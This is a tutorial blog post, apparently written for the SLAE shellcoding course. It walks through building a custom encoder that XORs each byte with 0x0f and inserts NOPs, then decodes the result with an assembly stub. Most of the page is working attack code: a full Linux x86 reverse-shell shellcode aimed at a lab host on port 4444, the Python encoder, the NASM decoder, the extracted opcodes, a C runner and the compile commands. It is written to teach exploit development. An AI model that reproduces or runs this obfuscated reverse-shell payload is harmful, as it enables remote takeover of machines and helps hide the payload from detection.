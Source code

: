 ```yaml
---                                                                                                                                                                                                                                       
title: Custom Encoder
author: Stipe Marinovic
date: 2020-06-11 22:00:00 +0800                                                                                                                                                                                                           
categories: [Blogging, Tutorial]                                                                                                                                                                                                          
tags: [slae, shellcoding]                                                                                                                                                                                                                 
toc: true                                                                                                                                                                                                                                 
---                                                                                                                                                                                                                                       
```

                                                                                                                                                                                                                                          
** PAGE STILL UNDER CONSTRUCTION **   

## Shell code ##

First we will create python script which will XOR every byte with ```0x0f``` and add NOP (\x90) after each shellcode byte. 
As shell code example - we can use reverse shell code form previous blog post which will establish connection to remote address 192.168.192.159 on port 4444. Wrapper skript will generate needed opcode:

```python wrapper.py 192.168.192.159 4444
\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x31\xf6\x66\xb8\x67\x01\xb3\x02\xb1\x01\xb2\x06\xcd\x80\x89\xc7\x31\xc0\x66\xb8\x6a\x01\x31\xc9\x51\x68\xc0\xa8\xc0\x9f\x66\x68\x11\x5c\x66\x6a\x02\x89\xfb\x89\xe1\xb2\x16\xcd\x80\x31\xc0\x31\xdb\x31\xc9\xb1\x03\x31\xc0\xb0\x3f\x89\xfb\xfe\xc9\xcd\x80\x75\xf4\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
```

## Encoding shell code ##

Once we get shell code, we will use following python script to encode it:
```
#!/usr/bin/python
import sys
import  random

# Custom reverse shell opcode (connect to 192.168.192.159 at port 4444)
shellcode = b"\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x31\xf6\x66\xb8\x67\x01\xb3\x02\xb1\x01\xb2\x06\xcd\x80\x89\xc7\x31\xc0\x66\xb8\x6a\x01\x31\xc9\x51\x68\xc0\xa8\xc0\x9f\x66\x68\x11\x5c\x66\x6a\x02\x89\xfb\x89\xe1\xb2\x16\xcd\x80\x31\xc0\x31\xdb\x31\xc9\xb1\x03\x31\xc0\xb0\x3f\x89\xfb\xfe\xc9\xcd\x80\x75\xf4\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"

# Encoder: XOR every byte with 0x0F and then insert x90

enc_shellcode=""                 # declare empty string

for x in bytearray(shellcode):   # for every byte in bytearray
   x=x^0x0f                      # preform XOR byte with 0x0F
   enc_shellcode+='0x%02x,'%x    # write encoded byte in new string
   enc_shellcode+='0x90,'        # add NOP (\x90) after every encoded byte in new string

# Print encoded opcode
print 'Encoded shellcode: ' + enc_shellcode
```


## Decoder ##

To sucessfuly decode encoded shell code, we need to preform XOR operation for every shell code byte with defined key 0x0F. 
Every other buty we will skipp as it is NOP instrunction. We will use: 
* EAX for XOR operations
* ECX as counter for decoding stub
* EDX as pointer to beggining of encoded (and later decoded) shell code
* ESI as pointer to byte which we need to decode
* EDI as pointer to memory address where decoded byte will be placed overwriting original byte

Stub will overwrite original encoded shell code with decoded one, but since we will skip every other byte (\x90) we will have some "garbage" left on the stack. Since running our shell code is primary goal we won't bother with garbage code at this point in time.

```
global _start

section .text
_start:
    jmp short call_decoder

    decode:
        pop esi                  ; pop pointer to shellcode in ESI
        xor eax, eax             ; clear EAX - used for XOR operations
        xor ecx, ecx             ; clear EXC - used as counter
        xor edi, edi             ; clear EDI - used as pointer to decoded shell code destination
        mov cl, len              ; move length of the shellcode in cl
        sar cl, 1                ; divide by 2 (since we are skipping every 2nd byte which is \x90)
        mov edx, esi             ; save pointer to beggining of shellcode from ESI to EDX
        mov edi, esi             ; save pointer to beggining of shellcode from ESI to EDI

    decoder_loop:
        mov  al, byte [esi]      ; move one byte from address pointed by ESI
        xor byte al, 0x0f        ; XOR first byte of the shellcode with 0x0f
        mov [edi], al            ; move new value from AL to address pointed by ESI

        inc esi                  ; increment ESI (to get to new address)
        inc esi                  ; increment ESI (to skip \x90 - NOP)
        inc edi                  ; increment EDI - pointer to decoded shellcode

        dec ecx                  ; decrement ECX (counter) by 1
        cmp cl, 0x1              ; compare if CL is eaqual to 1 and is so - jump to shellcode pointed by EDX
        jnz decoder_loop
        jmp edx

    call_decoder:
        call decode
        shellcode: db 0x3e,0x90,0xcf,0x90,0x3e,0x90,0xd4,0x90,0x3e,0x90,0xc6,0x90,0x3e,0x90,0xdd,0x90,0x3e,0x90,0xf9,0x90,0x69,0x90,0xb7,0x90,0x68,0x90,0x0e,0x90,0xbc,0x90,0x0d,0x90,0xbe,0x90,0x0e,0x90,0xbd,0x90,0x09,0x90,0xc2,0x90,0x8f,0x90,0x86,0x90,0xc8,0x90,0x3e,0x90,0xcf,0x90,0x69,0x90,0xb7,0x90,0x65,0x90,0x0e,0x90,0x3e,0x90,0xc6,0x90,0x5e,0x90,0x67,0x90,0xcf,0x90,0xa7,0x90,0xcf,0x90,0x90,0x90,0x69,0x90,0x67,0x90,0x1e,0x90,0x53,0x90,0x69,0x90,0x65,0x90,0x0d,0x90,0x86,0x90,0xf4,0x90,0x86,0x90,0xee,0x90,0xbd,0x90,0x19,0x90,0xc2,0x90,0x8f,0x90,0x3e,0x90,0xcf,0x90,0x3e,0x90,0xd4,0x90,0x3e,0x90,0xc6,0x90,0xbe,0x90,0x0c,0x90,0x3e,0x90,0xcf,0x90,0xbf,0x90,0x30,0x90,0x86,0x90,0xf4,0x90,0xf1,0x90,0xc6,0x90,0xc2,0x90,0x8f,0x90,0x7a,0x90,0xfb,0x90,0x3e,0x90,0xcf,0x90,0x5f,0x90,0x67,0x90,0x61,0x90,0x20,0x90,0x7c,0x90,0x67,0x90,0x67,0x90,0x20,0x90,0x20,0x90,0x6d,0x90,0x66,0x90,0x86,0x90,0xec,0x90,0x5f,0x90,0x86,0x90,0xed,0x90,0x5c,0x90,0x86,0x90,0xee,0x90,0xbf,0x90,0x04,0x90,0xc2,0x90,0x8f,0x90
        len equ $-shellcode

```

Assembly code we need to compile and link it the usual way.. 
```
nasm -f elf32 -o decoder.o decoder.nasm
ld -z execstack -o decoder decoder.o
```

But to get opcode we need to modify objdump/cut command as output has more that 6 columns so instead of ```cut -f1-6``` we need to use ```cut -f1-7``` as follows:

```
objdump -d $1 |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-7 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```

With modified command, extracted opcode is following:
```
"\xeb\x20\x5e\x31\xc0\x31\xc9\x31\xff\xb1\xc4\xd0\xf9\x89\xf2\x89\xf7\x8a\x06\x34\x0f\x88\x07\x46\x46\x47\x49\x80\xf9\x01\x75\xf1\xff\xe2\xe8\xdb\xff\xff\xff\x3e\x90\xcf\x90\x3e\x90\xd4\x90\x3e\x90\xc6\x90\x3e\x90\xdd\x90\x3e\x90\xf9\x90\x69\x90\xb7\x90\x68\x90\x0e\x90\xbc\x90\x0d\x90\xbe\x90\x0e\x90\xbd\x90\x09\x90\xc2\x90\x8f\x90\x86\x90\xc8\x90\x3e\x90\xcf\x90\x69\x90\xb7\x90\x65\x90\x0e\x90\x3e\x90\xc6\x90\x5e\x90\x67\x90\xcf\x90\xa7\x90\xcf\x90\x90\x90\x69\x90\x67\x90\x1e\x90\x53\x90\x69\x90\x65\x90\x0d\x90\x86\x90\xf4\x90\x86\x90\xee\x90\xbd\x90\x19\x90\xc2\x90\x8f\x90\x3e\x90\xcf\x90\x3e\x90\xd4\x90\x3e\x90\xc6\x90\xbe\x90\x0c\x90\x3e\x90\xcf\x90\xbf\x90\x30\x90\x86\x90\xf4\x90\xf1\x90\xc6\x90\xc2\x90\x8f\x90\x7a\x90\xfb\x90\x3e\x90\xcf\x90\x5f\x90\x67\x90\x61\x90\x20\x90\x7c\x90\x67\x90\x67\x90\x20\x90\x20\x90\x6d\x90\x66\x90\x86\x90\xec\x90\x5f\x90\x86\x90\xed\x90\x5c\x90\x86\x90\xee\x90\xbf\x90\x04\x90\xc2\x90\x8f\x90"
```

Extracted opcode we need to copy in C skeleton file:
```
#include <stdio.h>

unsigned char shellcode[] = "\xeb\x20\x5e\x31\xc0\x31\xc9\x31\xff\xb1\xc4\xd0\xf9\x89\xf2\x89\xf7\x8a\x06\x34\x0f\x88\x07\x46\x46\x47\x49\x80\xf9\x01\x75\xf1\xff\xe2\xe8\xdb\xff\xff\xff\x3e\x90\xcf\x90\x3e\x90\xd4\x90\x3e\x90\xc6\x90\x3e\x90\xdd\x90\x3e\x90\xf9\x90\x69\x90\xb7\x90\x68\x90\x0e\x90\xbc\x90\x0d\x90\xbe\x90\x0e\x90\xbd\x90\x09\x90\xc2\x90\x8f\x90\x86\x90\xc8\x90\x3e\x90\xcf\x90\x69\x90\xb7\x90\x65\x90\x0e\x90\x3e\x90\xc6\x90\x5e\x90\x67\x90\xcf\x90\xa7\x90\xcf\x90\x90\x90\x69\x90\x67\x90\x1e\x90\x53\x90\x69\x90\x65\x90\x0d\x90\x86\x90\xf4\x90\x86\x90\xee\x90\xbd\x90\x19\x90\xc2\x90\x8f\x90\x3e\x90\xcf\x90\x3e\x90\xd4\x90\x3e\x90\xc6\x90\xbe\x90\x0c\x90\x3e\x90\xcf\x90\xbf\x90\x30\x90\x86\x90\xf4\x90\xf1\x90\xc6\x90\xc2\x90\x8f\x90\x7a\x90\xfb\x90\x3e\x90\xcf\x90\x5f\x90\x67\x90\x61\x90\x20\x90\x7c\x90\x67\x90\x67\x90\x20\x90\x20\x90\x6d\x90\x66\x90\x86\x90\xec\x90\x5f\x90\x86\x90\xed\x90\x5c\x90\x86\x90\xee\x90\xbf\x90\x04\x90\xc2\x90\x8f\x90";

int main()
{
        int (*ret)() = (int(*)())shellcode;
        printf("Size of shellcode: %d bytes.\n", sizeof(shellcode)); 
        ret();
}
```

When we compile and run it, shell code is decoded in memory and reverse shell is established:

```
gcc -fno-stack-protector -z execstack -m32 skeleton.c -o encoded_revshell -g
```

By stepping thu program with GDB we can see shell code decoding. At the beggining of decoding stup we can see that ESI register is pointing to the beggining of encoded shellcode. ESI is pointing to address 0x404067. In order to see decoding in action we will monitor first 10 bytes at given address.
* Initial data on the stack
```
gdb-peda$ info register esi
esi            0x404067            0x404067

gdb-peda$ x/10b 0x404067
0x404067 <shellcode+39>:        0x3e    0x90    0xcf    0x90    0x3e    0x90    0xd4    0x90
0x40406f <shellcode+47>:        0x3e    0x90
```
* stack staus after few itterations:

```
gdb-peda$ x/10b 0x404067
0x404067 <shellcode+39>:        0x31    0xc0    0x31    0xdb    0x31    0x90    0xd4    0x90
0x40406f <shellcode+47>:        0x3e    0x90
```

* and after some more itterations we can see that decoded shell code doesn't not contain added NOPs and that all opcodes are XORed (3x XOR 0f = 31, cf XOR 0f = c0, etc.) and it has overwritten original opcodes:
```
gdb-peda$ x/10b 0x404067
0x404067 <shellcode+39>:        0x31    0xc0    0x31    0xdb    0x31    0xc9    0x31    0xd2
0x40406f <shellcode+47>:        0x31    0xf6
```

![slika](...)
